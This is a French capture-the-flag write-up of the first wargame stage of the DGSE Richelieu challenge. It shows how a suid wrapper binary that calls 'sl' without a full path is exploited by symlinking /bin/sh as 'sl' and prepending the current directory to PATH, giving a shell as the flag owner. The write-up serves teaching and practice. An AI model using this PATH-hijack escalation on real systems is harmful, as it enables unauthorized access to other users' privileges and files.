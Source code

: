 # Challenge Richelieu DGSE - Wargame #1

Nous y voilà : le wargame. il s'agit de réaliser une élévation de privilège ou du moins à la simuler en passant d'un utilisateur A à un utilisateur B, via un binaire ayant des droits [suid](https://fr.wikipedia.org/wiki/Setuid#Setuid_et_Setgid_pour_les_ex%C3%A9cutables)

Le programme précédemment "cracké" nous as donné la possibilité de nous connecter sur un serveur ssh sur lequel on trouve un [binaire](./binaries/defi1.bin) et un fichier texte :

```bash
defi1@AttrapeLeDrapeau:~$ ls -l
total 16
-r-------- 1 defi1-drapeau defi1-drapeau  133 Apr 26 14:06 drapeau.txt
-r-sr-sr-x 1 defi1-drapeau defi1-drapeau 8752 May 10 10:50 prog.bin
```

Notez les "s" à la place des classiques "x" sur la ligne correspondant au binaire *prog.bin*. Cela indique que le binaire est en *suid*: toute l’exécution de ce programme sera faite en tant qu'utilisateur effectif *defi1-drapeau*. Notez aussi que le fichier drapeau n'est lisible que par l'utilisateur *defi1-drapeau* et que l'on est connecté en tant qu'utilisateur *defi1*

Lançons le programme :
```bash
#################################################
##    Bienvenue dans ce lanceur (_wrapper_)    ##
#################################################
Ce logiciel vous permet de lancer ces programmes utiles simplement...
Menu :
   -> 1 : Affichage de la date et de l\'heure actuelle
   -> 2 : Affichage du nombre de secondes écoulées depuis le 01/01/1970 (Epoch)
   -> 3 : Affichage du train
   -> 4 : Affichage du calendrier du mois en cours
1
Nous sommes le 07/06/2019 et il est 20:15:37
```
Sans déboguer ni désassembler ce binaire, en testant toutes les commandes, on comprend que si l'ont tape 1, on lance la commande `date '+Nous sommes le %d/%m/%Y et il est %H:%M:%S'`. Si l'on tape 2, on lance `date '+Nombre de secondes depuis Epoch : %s'`. Si l'ont tapes 3 on lance `sl`. Et `cal` si l'on tape 4.

Les commandes sont lancées sans indiquer le chemin complet. Le système va se baser sur la variable d'environnement *PATH* pour savoir où chercher l’exécutable à lancer. C'est là que se situe la faille, car on peut modifier cette variable d'environnement.

On lance donc les commandes suivantes :

```bash
ln -sf /bin/sh sl
ls -l sl
lrwxrwxrwx 1 defi1 defi1 7 Jun  7 20:23 sl -> /bin/sh
PATH="$(pwd):$PATH" ./prog.bin
```
Si on envoie "3" au programme, il va lancer system("sl"), qui va récupérer dans la variable *PATH* les dossiers dans lesquels chercher l’exécutable "sl". Le premier sera le répertoire courant. Il va le trouver : il s'agit d'un lien symbolique vers /bin/sh. C'est donc cette commande qui sera exécutée. On obtient un shell en tant qu'utilisateur effectif *defi1-drapeau*. Il ne nous reste plus qu'à afficher le contenu du drapeau : `cat drapeau.txt`. Il y est indiqué comment se connecter au deuxième défi.

Le premier binaire est disponible [ici](./binaries/defi1.bin), si vous voulez vous faire la main.

La suite en cliquant sur le lien suivant : [Wargame #2](./Wargame2.md)

